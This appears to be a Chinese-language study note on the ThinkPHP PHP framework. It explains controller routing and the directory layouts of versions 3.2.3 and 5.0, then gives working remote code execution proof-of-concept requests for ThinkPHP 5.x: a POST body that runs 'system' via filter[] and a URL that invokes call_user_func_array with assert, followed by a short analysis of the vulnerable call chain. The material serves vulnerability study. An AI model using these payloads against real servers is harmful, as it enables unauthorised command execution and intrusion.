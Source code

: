 # Thinkphp

thinkphp采取MVC架构

下面是一个Controllor的示例

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function hello(){
        echo 'hello,thinkphp!';
    }
}
```

或``tp>5.0``

```php
<?php
namespace app\home\controller;

class Index 
{
    public function index()
    {
        return 'hello,thinkphp!';
    }
}
```

在一般的项目结构中，我们会把它写在

``application/home/controller/index.php``下

``Home\IndexController``类就代表了``Home``模块下的``Index``控制器，而``hello``操作就是``Home\IndexController``类的``hello``（公共）方法。

当访问 ``http://serverName/index.php/Home/Index/hello`` 后会输出：

```
hello,thinkphp!
```

对于Controller我们可以采取如下方式调用


1.  ``http://serverName/index.php/模块/控制器/操作/[参数名/参数值...]``

2. ``http://<serverName>/appName/?m=module&a=action&id=1``


## ThinkPHP 3.X

3.2.3 的默认目录结构如下

```
www  WEB部署目录（或者子目录）
├─index.php       入口文件
├─README.md       README文件
├─Application     应用目录
├─Public          资源文件目录
├─ThinkPHP 框架系统目录（可以部署在非web目录下面）
│  ├─Common       核心公共函数目录
│  ├─Conf         核心配置目录 
│  ├─Lang         核心语言包目录
│  ├─Library      框架类库目录
│  │  ├─Think     核心Think类库包目录
│  │  ├─Behavior  行为类库目录
│  │  ├─Org       Org类库包目录
│  │  ├─Vendor    第三方类库目录
│  │  ├─ ...      更多类库目录
│  ├─Mode         框架应用模式目录
│  ├─Tpl          系统模板目录
│  ├─LICENSE.txt  框架授权协议文件
│  ├─logo.png     框架LOGO文件
│  ├─README.txt   框架README文件
│  └─ThinkPHP.php 框架入口文件
```

可以看到在默认状态下wwwroot是可以访问到框架文件的，这可能会造成安全隐患

## ThinkPHP 5.0

5.0的目录结构如下

```
project  应用部署目录
├─application           应用目录（可设置）
│  ├─common             公共模块目录（可更改）
│  ├─index              模块目录(可更改)
│  │  ├─config.php      模块配置文件
│  │  ├─common.php      模块函数文件
│  │  ├─controller      控制器目录
│  │  ├─model           模型目录
│  │  ├─view            视图目录
│  │  └─ ...            更多类库目录
│  ├─command.php        命令行工具配置文件
│  ├─common.php         应用公共（函数）文件
│  ├─config.php         应用（公共）配置文件
│  ├─database.php       数据库配置文件
│  ├─tags.php           应用行为扩展定义文件
│  └─route.php          路由配置文件
├─extend                扩展类库目录（可定义）
├─public                WEB 部署目录（对外访问目录）
│  ├─static             静态资源存放目录(css,js,image)
│  ├─index.php          应用入口文件
│  ├─router.php         快速测试文件
│  └─.htaccess          用于 apache 的重写
├─runtime               应用的运行时目录（可写，可设置）
├─vendor                第三方类库目录（Composer）
├─thinkphp              框架系统目录
│  ├─lang               语言包目录
│  ├─library            框架核心类库目录
│  │  ├─think           Think 类库包目录
│  │  └─traits          系统 Traits 目录
│  ├─tpl                系统模板目录
│  ├─.htaccess          用于 apache 的重写
│  ├─.travis.yml        CI 定义文件
│  ├─base.php           基础定义文件
│  ├─composer.json      composer 定义文件
│  ├─console.php        控制台入口文件
│  ├─convention.php     惯例配置文件
│  ├─helper.php         助手函数文件（可选）
│  ├─LICENSE.txt        授权说明文件
│  ├─phpunit.xml        单元测试配置文件
│  ├─README.md          README 文件
│  └─start.php          框架引导文件
├─build.php             自动生成定义文件（参考）
├─composer.json         composer 定义文件
├─LICENSE.txt           授权说明文件
├─README.md             README 文件
├─think                 命令行入口文件
```



### ThinkPHP 5.0.0~5.0.23 RCE

## POC

```
http://127.0.0.1/thinkphp/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```

在5.0-5.0.12核心版本中没有强制设置默认filter。所以不需要s=captcha也可以触发。而在5.0.13以上由于设置了默认filter。所以需要使用captcha这个路由。


### 漏洞分析

问题出在Request类的method()方法上

其中`method()`方法就是补丁修改的位置，在这个方法中，如果`method`等于`true`，则调用`$this->server()`方法：

![img](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190112153449.png)

在`server()`方法中调用`$this->input`方法：

![img](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190112154611.png)

接着调用了`filterValue()`方法：

![img](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190112154923.png)

而`filterValue()`则调用了`call_user_func()`函数，如果两个参数均可控，则会造成命令执行：

![img](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190112175411.png)

![img](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190116110438.png)

### 修复方法

### 参考资料

https://xz.aliyun.com/t/3845

http://blog.nsfocus.net/thinkphp-full-version-rce-vulnerability-analysis/?from=groupmessage

## ThinkPHP 5.1

## ThinkPHP 5.X RCE

## POC

5.0.x php版本>=5.4

```
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

### 漏洞分析

https://xz.aliyun.com/t/3570

## ThinkPHP 6.0